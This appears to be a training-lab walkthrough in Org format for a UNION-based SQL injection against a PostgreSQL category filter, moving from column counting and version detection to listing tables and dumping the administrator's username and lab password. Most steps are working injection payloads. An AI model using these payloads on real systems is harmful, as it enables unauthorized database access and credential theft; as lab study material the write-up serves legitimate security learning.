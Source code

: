 #+title: SQL injection attack, listing the database contents on non-Oracle databases
* TABLE OF CONTENTS :toc:
- [[#about][About]]
  - [[#have][Have]]
  - [[#end-goal][End Goal]]
- [[#steps][Steps]]
  - [[#step-1][Step 1]]
  - [[#step-2][Step 2]]
  - [[#step-3][Step 3]]
  - [[#step-4][Step 4]]
  - [[#step-5][Step 5]]

* About
Vulnerability on ~category~ filter

** Have
+ Login system
+ Table that holds username and password

** End Goal
+ Determine the table name
+ Get credential for ~administrator~ and login

* Steps
** Step 1
Determine the number of columns
#+begin_src sql
'ORDER BY 1 --
#+end_src

#+begin_quote
Number of columns will be 2
#+end_quote

** Step 2
Determine the data type those columns are using
#+begin_src sql
'UNION SELECT 'ab', 'cd' --
#+end_src
#+begin_quote
Both columns use string data type
#+end_quote

** Step 3
Determine which type of database system this lab is using
#+begin_src sql
'UNION SELECT @@version, NULL --
#+end_src
#+begin_quote
Error !! So this is not mysql or microsoft database system
#+end_quote

#+begin_src sql
'UNION SELECT version(), NULL --
#+end_src
#+begin_quote
Success!! So this is ~PostgreSQL~ database
#+end_quote

** Step 4
Find out all tables in the PostgreSQL

#+begin_src sql
SELECT * FROM information_schema.tables
#+end_src

We just want to get table names. So our query will be
#+begin_src sql
'UNION SELECT table_name, NULL FROM information_schema.tables --
#+end_src

*** Retrieve Data
~users_rddprx~

Now get the column names from ~users_rddprx~ table

#+begin_src sql
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_rddprx' --
#+end_src

*** Retrieve Data
+ username_vgfsuf
+ password_chmcao

** Step 5
Now finally get the all the information from the table
#+begin_src sql
'UNION SELECT username_vgfsuf, password_chmcao FROM users_rddprx --
#+end_src

*** Retrieve Data
+ administrator
+ 420qf8r7ca1jxx8hevxn
